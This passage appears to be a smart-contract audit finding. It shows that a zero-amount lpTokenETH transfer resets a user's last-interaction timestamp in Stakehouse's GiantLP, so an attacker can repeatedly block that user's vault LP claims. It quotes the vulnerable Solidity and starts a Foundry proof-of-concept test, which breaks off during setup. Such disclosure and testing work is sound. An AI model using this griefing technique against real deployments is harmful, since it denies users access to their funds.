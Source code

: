 The bug is in `_assertUserHasEnoughGiantLPToClaimVaultLP` in the last require that checks that a day has passed since the user has interacted with Giant LP Token:
https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/contracts/liquid-staking/GiantPoolBase.sol#L93
```
    function _assertUserHasEnoughGiantLPToClaimVaultLP(LPToken _token, uint256 _amount) internal view {
        require(_amount >= MIN_STAKING_AMOUNT, "Invalid amount");
        require(_token.balanceOf(address(this)) >= _amount, "Pool does not own specified LP");
        require(lpTokenETH.lastInteractedTimestamp(msg.sender) + 1 days < block.timestamp, "Too new");
    }
```

The condition `lpTokenETH.lastInteractedTimestamp(msg.sender) + 1 days < block.timestamp` can be set to fail by the hacker. The hacker  transfers 0 `lpTokenETH` tokens to  `msg.sender`. This transfer will update the `lastInteractedTimestamp` to now.

The above can be done once a day or on-demand by front-running the withdraw commands.

`_afterTokenTransfer` in `GiantLP.sol`:
https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/contracts/liquid-staking/GiantLP.sol#L43
```
    function _afterTokenTransfer(address _from, address _to, uint256 _amount) internal override {
        lastInteractedTimestamp[_from] = block.timestamp;
        lastInteractedTimestamp[_to] = block.timestamp;
        if (address(transferHookProcessor) != address(0)) ITransferHookProcessor(transferHookProcessor).afterTokenTransfer(_from, _to, _amount);
    }
```
### Foundry POC

The POC will show how a hacker prevents a user from receiving dETH although they are eligible to receive it.

Add the following test to `GiantPools.t.sol`:
https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/GiantPools.t.sol#L118
```
    function testPreventWithdraw() public {
        // Set up users and ETH
        address nodeRunner = accountOne; vm.deal(nodeRunner, 12 ether);
        address feesAndMevUserOne = accountTwo; vm.deal(feesAndMevUserOne, 4 ether);
        address savETHUser = accountThree; vm.deal(savETHUser, 24 ether);

        // Register BLS key
        registerSingleBLSPubKey(nodeRunner, blsPubKeyOne, accountFour);

        // Deposit 24 ETH into giant savETH
        vm.prank(savETHUser);
        giantSavETHPool.depositETH{value: 24 ether}(24 ether);
        assertEq(giantSavETHPool.lpTokenETH().balanceOf(savETHUser), 24 ether);
        assertEq(address(giantSavETHPool).balance, 24 ether);

        // Deploy 24 ETH from giant LP into savETH pool of LSDN instance
        bytes[][] memory blsKeysForVaults = new bytes[][](1);
        blsKeysForVaults[0] = getBytesArrayFromBytes(blsPubKeyOne);

        uint256[][] memory stakeAmountsForVaults = new uint256[][](1);
        stakeAmountsForVaults[0] = getUint256ArrayFromValues(24 ether);

        giantSavETHPool.batchDepositETHForStaking(
            getAddressArrayFromValues(address(manager.savETHVault())),
            getUint256ArrayFromValues(24 ether),
            blsKeysForVaults,
```